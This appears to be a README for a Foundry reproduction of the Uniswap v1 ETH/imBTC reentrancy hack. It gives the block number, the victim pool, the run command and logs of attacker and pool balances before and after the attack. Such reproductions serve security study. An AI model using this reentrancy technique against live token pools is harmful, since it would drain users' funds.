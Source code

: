 # Uniswap imBTC reentrant hack testing.

## Block Number

9488451

## Victim

uniswap v1 `ETH/imBTC(ERC777)` exchange pool

## Run

```bash
forge script script/Script.s.sol

[⠔] Compiling...
No files changed, compilation skipped
Script ran successfully.
Gas used: 1524702

== Logs ==
  before attacker ETH: 3600000000000000000000
  before attacker imBTC: 0
  before pool ETH: 718529642351924552227
  before pool imBTC: 1959698094
  ----attack----
  after attacker ETH: 58284156552147589474
  after attacker imBTC: 1940237338
  after pool ETH: 4260245485799776962753
  after pool imBTC: 19460756
```

